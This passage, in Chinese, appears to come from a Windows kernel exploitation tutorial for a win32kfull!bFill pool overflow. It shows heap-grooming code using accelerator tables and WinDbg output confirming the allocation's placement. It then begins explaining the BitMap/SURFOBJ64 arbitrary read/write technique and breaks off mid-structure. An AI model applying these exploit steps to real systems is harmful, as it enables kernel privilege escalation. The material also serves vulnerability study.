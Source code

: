 ```
    {
        // 释放部分页尾的0x60字节的内存，其中的某块用来保存漏洞申请的0x60内存
        if (!DestroyAcceleratorTable(hAccel[i]))
        {
            ShowError("DestroyAcceleratorTable", GetLastError());
            bRet = FALSE;
            goto exit;
        }
        hAccel[i] = NULL;
    }
exit:
    return bRet;
}
```  
  
  
在申请内存处下断点，编译运行程序就可以看到此时申请的内存在内存页的最后0x60字节：  
```
1: kd> g
Breakpoint 0 hit
win32kfull!bFill+0x3e4:
fffff960`298e9108 e8ef3fd5ff      call    win32kfull!PALLOCMEM2 (fffff960`2963d0fc)
2: kd> p
win32kfull!bFill+0x3e9:
fffff960`298e910d 4c8bf0          mov     r14,rax
2: kd> r rax
rax=fffff90145284fb0
```  
##   
## 2.任意地址读写  
  
在x64系统中创建的BitMap对象的BASEOBJECT64占0x18字节，结构体定义如下：  
```
typedef struct {
  ULONG64 hHmgr;
  ULONG32 ulShareCount;
  WORD cExclusiveLock;
  WORD BaseFlags;
  ULONG64 Tid;
} BASEOBJECT64; // sizeof = 0x18
```  
  
  
利用BitMap对象实现任意地址写入的关键成员在对BASEOBJECT64之后的SURFOBJ64结构体中，结构体定义如下：  
```
typedef struct tagSIZE {
    LONG cx;
    LONG cy;
} SIZE,*PSIZE,*LPSIZE;

typedef SIZE SIZEL;

typedef struct {
  ULONG64 dhsurf;         // 0x00
  ULONG64 hsurf;          // 0x08
  ULONG64 dhpdev;         // 0x10
  ULONG64 hdev;           // 0x18
  SIZEL sizlBitmap;       // 0x20
  ULONG64 cjBits;         // 0x28
  ULONG64 pvBits;         // 0x30
  ULONG64 pvScan0;        // 0x38
  ULONG32 lDelta;         // 0x40
  ULONG32 iUniq;          // 0x44
  ULONG32 iBitmapFormat;  // 0x48
  USHORT iType;           // 0x4C
```